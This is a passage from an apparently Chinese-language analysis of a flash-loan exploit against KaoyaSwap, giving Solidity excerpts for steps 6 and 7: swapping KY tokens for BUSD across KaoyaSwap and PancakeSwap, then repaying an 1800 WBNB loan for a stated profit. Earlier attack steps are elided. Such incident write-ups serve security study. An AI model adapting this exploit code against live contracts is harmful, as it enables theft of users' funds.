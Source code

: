 ```solidity
        require(tokenA != tokenB, 'UniswapV2Library: IDENTICAL_ADDRESSES');
        (token0, token1) = tokenA < tokenB ? (tokenA, tokenB) : (tokenB, tokenA);
        require(token0 != address(0), 'UniswapV2Library: ZERO_ADDRESS');
    }

    // calculates the CREATE2 address for a pair without making any external calls
    function pairFor(address factory, address tokenA, address tokenB) internal view returns (address pair) {
        (address token0, address token1) = sortTokens(tokenA, tokenB);
//         Explicit type conversion not allowed from "uint256" to "address".
        pair = address(uint160(uint(keccak256(abi.encodePacked(
            hex'ff',
            KAOYA_FACTORY_ADDRESS,
            keccak256(abi.encodePacked(token0, token1)),
            hex'e6d6d0a3b71886f20325ef74a341f4805b42c4e8e6666b6d5d55ae47741e3e78' // init code hash
        )))));
    }
```


### step6：在KaoyaSwap，将 83,918 个KY交易为BUSD；在PancakeSwap将 17,740 个KY交易为BUSD；将 23,364 个KY交易为WBNB。





```solidity
function DPPFlashLoanCall(address msgSender, uint baseAmount, uint quoteAmount, bytes calldata data) public {
        //step2
        ...
        //step3
        ...
        //step4
        ...
        //step5
        ...
        
        //step 6 KY 换BUSD
        WBNB.deposit{value:address(this).balance}();
        KY.approve(address(kaoyaRouter), type(uint256).max);
        KY.approve(address(pancakeRouter), type(uint256).max);
        address[] memory  path4 = new address[](2);
        path4[0]=address(KY);
        path4[1]=address(BUSD);
        kaoyaRouter.swapExactTokensForTokens(83_918e18, 1e18, path4, address(this), block.timestamp+1000);
        pancakeRouter.swapExactTokensForTokens(17_740e18, 1e18, path4, address(this), block.timestamp+1000);
}

```


### step7：换闪电贷 1800 个WBNB，获利了结 272 个WBNB, 37,294 个BUSD。


```solidity
        //step 7
        WBNB.transfer(address(dpp), 1800e18);
```










